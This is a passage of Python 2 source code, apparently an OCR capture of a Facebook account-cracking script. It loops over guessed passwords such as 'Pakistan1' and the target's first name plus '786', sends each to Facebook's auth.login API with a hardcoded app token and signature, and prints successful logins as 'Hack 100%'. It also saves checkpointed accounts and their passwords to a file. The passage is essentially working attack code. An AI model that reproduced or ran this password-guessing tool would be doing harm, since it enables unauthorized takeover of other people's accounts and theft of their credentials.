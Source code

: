 											if 'access_token' in q:

												print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass5

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass5

													cek = open("out/checkpoint.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = 'Pakistan1'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass6

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass6

															cek = open("out/checkpoint.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

															b = json.loads(a.text)

															pass7 = b['first_name'] + '786'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
